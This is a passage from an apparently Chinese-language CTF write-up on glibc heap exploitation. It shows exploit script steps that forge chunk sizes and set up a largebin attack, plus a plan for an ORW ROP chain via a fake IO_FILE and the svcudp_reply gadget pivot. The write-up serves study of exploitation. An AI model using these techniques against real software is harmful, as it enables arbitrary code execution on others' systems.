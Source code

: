 [![](assets/1701606552-9727b015002c25fdaa6999e65dd537c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121209-4e61f198-88ed-1.png)

```bash
edit(0,'\x00'*0x420+p64(0)+p64(0x431))
edit(1,'\x00'*0x340+p64(0)+p64(0x431))
```

接下来构造好 largebin attack 的触发

```bash
add(5,0x450,'bbbb')
add(6,0x450,'bbbb')
add(7,0x440,'bbbb')
add(8,0x440,'bbbb')
delete(5)#chunk5 --> unsorted bin
add(9,0x500,'bbbb')#chunk5 --> largebin
delete(7)#chunk7-->unsortedbin
```

[![](assets/1701606552-6d09ca9d377dbcdbb51f309fe9cbaafc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121219-5449e4e4-88ed-1.png)

下一步就是构造好 orw 链和 fake io

这里是 winmt 师傅的文章浇的原理[\[原创\] CTF 中 glibc 堆利用 及 IO\_FILE 总结-Pwn-看雪 - 安全社区 | 安全招聘|kanxue.com](https://bbs.kanxue.com/thread-272098.htm#msg_header_h3_29)

tql

通过 svcudp\_reply+26 处的 gadget 做到类似于栈迁移的效果，走 ROP 链打 orw

```bash
<svcudp_reply+26>:  mov  rbp,QWORD PTR [rdi+0x48]
<svcudp_reply+30>:  mov  rax,QWORD PTR [rbp+0x18]
<svcudp_reply+34>:  lea  r13,[rbp+0x10]
<svcudp_reply+38>:  mov  DWORD PTR [rbp+0x10],0x0
<svcudp_reply+45>:  mov  rdi,r13
<svcudp_reply+48>:  call  QWORD PTR [rax+0x28]
```

